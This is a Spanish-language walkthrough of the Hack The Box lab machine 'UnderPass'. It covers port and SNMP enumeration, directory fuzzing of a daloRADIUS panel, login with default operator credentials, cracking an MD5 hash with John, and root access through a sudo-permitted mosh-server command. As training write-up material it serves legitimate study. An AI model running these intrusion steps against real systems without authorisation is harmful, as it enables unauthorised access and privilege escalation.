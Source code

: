 
![[Pasted image 20250405181310.png]]

## 1. Preparación del entorno

Conectamos la `VPN` de HTB y comprobamos que llegamos a la maquina

```
sudo openvpn htb.ovpn
```

```
ping -c1 10.10.11.48
```

Creamos nuestro directorio de trabajo con las siguiente estructura.

```
UnderPass\
  ├─ Scans\
  └─ Evidencias\
  └─ Scripts\
```

Para ello ejecutamos los siguientes comandos desde home.

```
mkdir ./Desktop/HTB/UnderPass

cd ./Desktop/HTB/UnderPass

mkdir scans evidencias scripts
```

Para no tener problemas en la resolución DNS, añadimos esta la informacion de la maquina en el fichero etc/hosts

```
echo "10.10.11.48    underpass.htb " | sudo tee -a /etc/hosts 
```

## 2. Fase de escaneo y recopilación de información

Entramos al directorio ``/scans``, donde vamos a volcar toda la información que saquemos de los escaneos. Lanzamos la herramienta`nmap`.

```
cd scans

sudo nmap -p- --open -sS --min-rate -n -Pn 10.10.11.48 -oN OpenPorts
```

![[Pasted image 20250405183854.png]]

Ahora que sabemos los puertos abiertos vamos a lanzar `nmap` con un conjunto de scripts que nos van a dar información adicional sobre los servicios y versiones de los mismos.

```
sudo nmap -p22,80 -sCV 10.10.11.48 -oN InfoPorts
```

![[Pasted image 20250405184029.png]]

- **Puerto 22/tcp - SSH:**
    - Servicio: **OpenSSH 8.9p1**
    - Sistema operativo: **Ubuntu Linux (versión 3ubuntu0.10)**
    - Protocolo: **SSH 2.0**

- **Puerto 80/tcp - HTTP:**
    - Servicio: **Apache HTTPD 2.4.52**
    - Sistema operativo: **Ubuntu**
    - Protocolo: **HTTP**

##### Desglose de los parámetros:
- `-p-`: Escanea todos los puertos (0-65535).
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Realiza un escaneo SYN (silencioso).
- `-sCV`: Detecta información adicional de servicios y las vesiones.
- `--min-rate 5000`: Define una velocidad mínima de escaneo.
- `-n`: Evita la resolución DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `-oN`: Guarda los resultados en un archivo

Vemos que hay a nivel web.

```
whatweb http://10.10.11.48
```

![[Pasted image 20250405184840.png]]

Si abrimos la web encontramos un apache por defecto

![[Pasted image 20250405184927.png]]

Tras no encontrar nada, voy a lanzar un escaneo para UDP (User Datagram Protocol). Para ello lanzo el siguiente comando.

```
sudo nmap -p- --open -sU --min-rate 7000 -Pn 10.10.11.48 -oN UDPScan
```

![[Pasted image 20250405191222.png]]

Lanzo un escaneo para comprobar el servicio y la versión del **puerto 161**
```
sudo nmap -p161 -sU -sCV  10.10.11.48 -oN UDPInfoPort
```
![[Pasted image 20250405191536.png]]

Vemos que está el puerto 161 con el servicio  SNMPv1 (public). Ahora lo que voy a hacer es buscar información publica del servicio **snmp**.

```
snmpwalk -v 1 -c public 10.10.11.48 >> ../evidencias/snmp.txt
```

![[Pasted image 20250405193311.png]]

Vemos que hay un usuario, voy a guardarlo en el fichero user.txt por si fuese útil más adelante. 
```
echo "steve@underpass.htb" > user.txt
```

También tenemos la frase **`Service Info: Host: UnDerPass.htb is the only daloradius server in the basin.`** He encontrado que `dolaradius`es un una aplicación de gestión web Radius. 

A continuación, vamos a ver que esconde el servicio daloradius, para ello introducimos lo siguiente en el navegador:

```
http://underpass.htb/daloradius
```

No tenemos permisos para visualizar la pagina.

![[Pasted image 20250405194458.png]]
Como no tenemos acceso vamos a ver si realizando fuzzing encontramos mas directorios o archivos. Voy a usar la herramienta `gobuster`

```
gobuster dir -u http://underpass.htb/daloradius -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

![[Pasted image 20250408115828.png]]

Seguimos buscando información, para ello voy a hacer fuzz en el resto de directorios.

- **Fuzzing  /app**

```
gobuster dir -u http://underpass.htb/daloradius/app -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![[Pasted image 20250408120854.png]]

Seguimos buscando información en estos 3 directorios. Voy a buscar también por extensión de archivos. 
```
gobuster dir -u http://underpass.htb/daloradius/app/users -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```
![[Pasted image 20250408121632.png]]
```
gobuster dir -u http://underpass.htb/daloradius/app/operators -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```
![[Pasted image 20250408121734.png]]

## 3. Fase de explotación.

Al realizar ``fuzzing en Users y Operators`` encontramos un panel de login en login.php. Voy a probar usar la contraseña por defecto del servicio daloRADIUS, si no funciona voy a probar si es vulnerable a SQLInyection.

![[Pasted image 20250408111020.png]]

**La pagina operators, tiene la contraseña por defecto**. Mientras que users no.

```
http://underpass.htb/daloradius/app/operators/login.php
```

Esta es la pagina web que tenemos. Además hemos accedido como administrador

![[Pasted image 20250408122601.png]]

Tras un rato investigando la pagina he encontrado información valiosa como:

-``Los servicios activos``

![[Pasted image 20250408123006.png]]

-`Usuario y contraseña cifrada`: tengo este archivo .csv con la contraseña y el método de cifrado, que es MD5

![[Pasted image 20250408123154.png]]

Voy a crear el archivo `hash.txt` en el directorio evidencias, en este voy a guardar el hash del usuario svcMosh. Para romperlo voy a utilizar **John**

```
echo "412DD4759978ACFCC81DEAB01B382403" > hash.txt

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

![[Pasted image 20250408124731.png]]

Ahora que tengo un usuario y contraseña voy a tratar de acceder por SSH.

```
ssh svcMosh@10.10.11.48 
```

Accedo sin problemas con el usuario ``svcMosh``

![[Pasted image 20250408140352.png]]

Leemos el archivo `ùser.txt` y encontramos la primera flag
![[Pasted image 20250408125759.png]]

![[Pasted image 20250408130059.png]]

## 4. Escalada de Privilegios

Con el siguiente comando podemos ver que archivos puede ejecutar el usuario actual como root, sin necesidad de proporcionar una contraseña.
```
sudo -l 
```
![[Pasted image 20250408125730.png]]

Encontramos el binario **mosh-server** *(Mosh (Mobility Shell) es un servidor y cliente SSH multiplataforma y que está optimizado para redes en continúa movilidad como 3G o Wi-Fi).* Para llegar a explotarlo veo las opciones de ejecución que tengo..

![[Pasted image 20250408140108.png]]

Si ejecutamos este comando explotaremos el servicio mosh, ya que nos vamos a lanzar una sesión de SSH como el usuario root de manera local.

```
mosh --server="sudo /usr/bin/mosh-server" localhost
```

Comprobamos que soy `root` y vemos el archivo **root.txt** con la segunda flag.

![[Pasted image 20250408132221.png]]

####                                              **Maquina Pwned**

![[Pasted image 20250408132757.png]]